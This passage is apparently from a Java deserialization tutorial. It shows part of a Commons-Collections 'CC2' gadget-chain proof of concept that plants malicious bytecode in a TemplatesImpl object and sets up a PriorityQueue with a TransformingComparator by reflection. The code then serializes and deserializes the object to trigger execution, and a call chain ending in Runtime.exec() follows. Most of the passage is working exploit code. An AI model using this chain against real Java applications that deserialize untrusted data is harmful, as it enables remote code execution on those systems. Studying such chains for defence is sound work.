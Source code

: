 ```java
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, targetByteCodes);
        _tfactory.set(templates, new TransformerFactoryImpl());

        TransformingComparator transformingComparator = new TransformingComparator(transformer);
        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class c2 = Class.forName("java.util.PriorityQueue");
        Field _queue = c2.getDeclaredField("queue");
        _queue.setAccessible(true);
        Object[] queue_array = new Object[]{templates,1};
        _queue.set(priorityQueue,queue_array);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);
        try {
            // Serialization operation
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./CC2EvilGadget2.bin"));
            outputStream.writeObject(priorityQueue);
            outputStream.close();
            // Deserialization operation
            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CC2EvilGadget2.bin"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC2();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/5.png" alt="">

# Call chain
```java
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        InvokerTransformer.transform()
                                Method.invoke()
                                    TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```
